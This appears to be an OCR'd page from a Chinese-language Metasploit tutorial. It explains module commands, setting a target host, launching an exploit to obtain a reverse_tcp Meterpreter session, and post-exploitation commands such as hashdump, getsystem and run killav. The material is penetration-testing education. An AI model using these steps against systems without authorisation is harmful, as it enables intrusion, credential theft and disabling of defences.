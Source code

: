 show options

用于列出模块所需要的各种参数



show payloads
将显示Metasploit中所有可用的攻击载荷，如果你选择的模块的话，执行show payloads只会看到适用于本模块的的攻击载荷列表。
注意在这个模块下只有针对windows平台的攻击载荷才会显示出来，Metasploit一般会根据环境识别出可在一次特定的渗透攻击中使用的攻击载荷。



show targets

通常攻击模块会自动识别操作系统的信息，自动选择系统版本进行攻击，但是最好还是通过人工更加精准的判别，以避免错误的、破坏性的攻击。



set target 0

设置target的类型





info

当觉得show和search命令所提供的信息过于简短，可以使用info命令加上模块的名字来显示此模块的详细信息、参数说明以及所有可用的操作系统（如果已选择了某个模块，可直接在模块下输入info）



set rhosts 192.168.0.239

unset rhosts 

Metasploit模块中的所有参数只有两个状态：已设置（set）或者未设置（unset）。有些参数会被标记为必填项（required），这样的参数必须经过手工设置并处于启用状态。输入show options命令可以查看哪些参数是必填的；使用set命令可以对某个参数进行设置（同时启用该参数）；使用unset命令可以禁用相关参数。







exploit  or  run  

开始攻击





run  #开始攻击



我们使用exploit命令初始化攻击环境，并开始对目标进行攻击尝试。这次攻击是成功的，为我们返回了一个reverse_tcp方式的Meterpreter攻击载荷会话，此时可以使用session -1命令查看远程运行的Meterpreter情况。可以看到，目前仅有一个会话是活动的。但如果我们 同时对多个目标进行了攻击，会同时开启多个会话.（如果想查看攻击创建的每一个Meterpreler会话的详细信息，你可以输入sessions -1 -v ）

sessions -i 1命令让我们能够与ID为1的控制会话进行交互。注意此时我们进入 了 Meterpreter的交互shell中。如果控制会话是一个反向连接命令行shell,这个命令会直接把我们带到命令提示符状态下。最后在Meterpreter处我们输入shell命令进入了目标系统的交互命令行shell中



## 四 meterpreter 的使用

```
screenshot
sysinfo
getsid
getuid
getsystem
download
upload
run killav
hashdump
shell
chcp65001
```
